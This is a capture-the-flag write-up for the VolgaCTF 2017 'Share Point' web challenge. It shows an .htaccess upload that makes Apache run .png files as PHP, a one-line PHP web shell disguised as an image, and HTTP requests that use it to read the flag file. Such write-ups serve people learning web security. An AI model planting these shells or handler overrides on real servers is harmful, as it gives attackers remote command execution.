


# Share Point - 200
Problem:
```
Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru
```
When I browsed to the web I found login page which could login with any user but you have to specify the password.


I found page that I could upload any file but not with php or html file.


I've tried hard but it could not be bypass file extension checking.

I've come up with another method by uploading .htaccess. I modify .htaccess to handling .png like .php file.
The following was content of .htaccess:
```
AddType application/x-httpd-php .png
```

and then upload the .htaccess file.


When I uploaded .png file the server will treat the .png file like .php file.

I upload .png file with malicious shell command.
```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 221
Content-Type: multipart/form-data; boundary=---------------------------15359717221864
Cookie: PHPSESSID=na403i0vkb1tkf0fd4d3iclg04
DNT: 1
Connection: close

-----------------------------15359717221864
Content-Disposition: form-data; name="userFile"; filename="zion.png"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
-----------------------------15359717221864--
```

Then browse to zion.png and execute commands to find and grab the flag.
```
GET /files/kapi/zion.png?cmd=cat%20/opt/flag.txt HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=na403i0vkb1tkf0fd4d3iclg04
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1


HTTP/1.1 200 OK
Date: Mon, 27 Mar 2017 07:03:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 51
Connection: close
Content-Type: text/html; charset=UTF-8

VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
```

The flag was:
* VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
